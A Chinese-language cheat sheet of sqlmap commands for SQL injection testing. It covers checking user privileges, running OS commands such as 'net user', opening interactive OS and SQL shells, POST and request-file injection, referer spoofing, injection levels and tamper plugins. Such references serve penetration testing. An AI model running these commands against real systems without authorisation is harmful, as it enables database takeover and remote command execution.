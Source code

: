 

#### 测试注入点权限

测试所有用户的权限：sqlmap -u URL -- privileges

测试a用户的权限：sqlmap -u URL -- privileges -U a

#### 执行shell命令

sqlmap -u URL --os-cmd="net user"

系统交互的shell：sqlmap -u URL --os-shell

#### 执行sql命令

SQL交互的shell，执行sql语句：sqlmap -u URL --sql-shell

sqlmap -u URL --sql-query="sql"

#### POST提交方式

sqlmap -u URL --data "POST参数"

#### 显示详细的等级

sqlmap -u URL --dbs -v 1

-v 参数包含7个等级。

0:    只显示Python的回溯、错误和关键消息。

1：显示信息和警告信息。

2：显示调试信息。

3：有效载荷注入。

4：显示HTTP请求。

5：显示HTTP响应头。

6：显示HTTP响应页面的内容。

#### 注入HTTP请求

sqlmap -r test.txt --dbs

test.txt 的内容为HTTP请求。

--referer  ""  #使用referer欺骗


#### 注入等级

sqlmap -u URL --level 3	#sqlmap默认测试所有的GET和POST参数，当--level的值大于等于2的时候也会测试HTTP Cookie头的值，当大于等于3的时候也会测试User-Agent和HTTP Referer头的值。最高为5


#### 使用sqlmap插件

sqlmap -u URL -tamper "插件名称"
